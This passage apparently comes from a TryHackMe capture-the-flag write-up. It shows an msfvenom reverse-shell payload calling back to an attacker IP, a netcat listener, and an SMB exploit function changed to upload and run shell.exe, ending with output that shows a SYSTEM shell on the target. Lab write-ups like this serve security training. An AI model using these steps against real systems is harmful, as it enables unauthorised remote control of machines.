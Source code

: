```

It is working fine, since file `c:\pwned.txt` has been created.

Now, our goal is to obtain a reverse shell.

First, we create a reverse shell executable with `msfvenom`:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.147.132 LPORT=4444 -f exe > shell.exe
```

Then we start a netcat listener:

```
nc -nlvp 4444
```

Now we change a little the exploit behavior. We want to execute our `shell.exe` file:

```
..
..
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()
    print('SMB connection OK')
    smb_send_file(smbConn, 'shell.exe', 'C', '/test2.exe')
    print('Shell uploaded')
    service_exec(conn, r'c:\test2.exe')
    print('Run shell!')
..
..
```

We run exploit:

```
# ./exploit.py 10.10.141.137
```

and we obtain a reverse shell:

```
root@kali:/opt/tryhackme/relevant# nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.147.132] from (UNKNOWN) [10.10.141.137] 49886
whoami
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
